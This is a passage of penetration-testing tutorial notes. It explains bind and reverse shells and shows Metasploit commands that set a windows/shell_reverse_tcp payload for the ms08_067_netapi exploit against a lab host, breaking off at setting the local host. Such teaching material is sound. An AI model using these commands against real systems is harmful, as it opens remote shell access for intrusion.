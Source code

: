 Shells fall into two categories

- bind shells
- reverse shells

- Bind Shells

A _bind shell_ instructs the target machine to open a command shell and listen on a local port. The attack machine then connects to the target machine on the listening port. 

- Reverse Shells

A _reverse shell_, actively pushes a connection back to the attack machine rather than waiting for an incoming connection. In the attack machine, we open a local port and listen for a connection from our target because this reverse connection is more likely to make it through a firewall.

### Setting Payload Manually

use the `set payload` command to specify the payload

```
msf  exploit(ms08_067_netapi) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
```

Since a reverse shell is used, specify the local host and port to listen on

``` hl_lines="17 18"
msf  exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.20.10    yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
  ❶LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```

- setting the local host
